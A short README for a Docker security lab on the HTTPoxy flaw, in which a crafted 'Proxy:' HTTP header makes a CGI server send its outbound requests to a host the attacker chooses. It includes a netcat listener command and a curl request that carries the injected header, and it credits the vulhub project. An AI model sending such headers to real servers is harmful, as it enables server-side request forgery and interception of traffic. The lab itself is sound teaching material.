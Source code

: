 # HTTPOXY
## Injection of environment variable via "Proxy:" HTTP Header
### Can lead to SSRF without URI resource control

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run the lab:
```
cd 1-httpoxy
docker-compose up -d
```

### On another terminal windows run:
```
nc -lvp 9999
curl -H "Proxy: [Your IP]:9999" http://[Your IP]:8080/index.php 
```

![image](https://user-images.githubusercontent.com/31791455/140382286-fdfccc75-cf13-488f-9ebd-aa8c83fe38d3.png)


### Explanation
HTTP Server will interpret Proxy: header value and try to connect to it. This can lead to SSRF.

### References and recommended reading
https://httpoxy.org/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/cgi/httpoxy

